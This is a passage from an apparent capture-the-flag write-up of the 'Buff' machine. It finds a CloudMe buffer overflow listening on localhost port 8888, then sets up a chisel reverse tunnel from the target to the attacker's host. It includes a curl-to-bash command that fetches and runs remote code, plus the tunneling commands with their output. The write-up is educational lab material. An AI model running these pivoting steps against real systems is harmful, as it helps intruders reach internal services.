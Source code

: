 ```
               2 Dir(s)   9,756,262,400 bytes free
```

Again , searching the software on **exploitdb** for a possible vulnerability leads to this :

![cloudme](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/cloudme.png)


By the first view, it seems like a **Buffer Overflow** vulnerability laying on **CloudMe** which should probably be listening on a local port on the machine. 

We can confirm that by executing this command :

```
C:\Users\shaun\Downloads>netstat -an | findstr "LISTENING"

  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  [...]
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  [...]
```

It appears that the vulnerable software is listening under port **8888** on ``localhost``. 

### Tunneling

To remotely exploit it, We would need to use a software like **chisel** to forward the port on our own host and be able to start attacking.

I'm going to download chisel.exe from [here](https://github.com/jpillora/chisel/releases/tag/v1.7.3) and upload on the target machine the same way I used to download netcat.

You would also need to install **chisel** on your attacking machine by doing so : 
```sh
root@kali:~# curl https://i.jpillora.com/chisel! | bash
```
To initiate a chisel server and forward the local port on our host I'll use the following command in kali , where **chisel** will act as a server : 
```sh
root@kali:~# chisel server -p 9999 --reverse
2020/11/22 16:57:19 server: Reverse tunnelling enabled
2020/11/22 16:57:19 server: Fingerprint a63KtuIHgw77NOvEkBiELKD5r+XZqaveL6gaGH1SMdg=
2020/11/22 16:57:19 server: Listening on http://0.0.0.0:9999
```
Next, on the target machine where **chisel** will act as a client I'll fire the following command :
```
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.127:9999 R:8888:127.0.0.1:8888
2020/11/22 16:07:14 client: Connecting to ws://10.10.14.127:9999
2020/11/22 16:07:14 client: Fingerprint 3e:9b:22:0a:bc:86:88:37:da:bc:fe:ff:13:89:a9:20
2020/11/22 16:07:15 client: Connected (Latency 512.4523ms)
```
With everything already set-up now, We can try to attack the vulnerable software. 
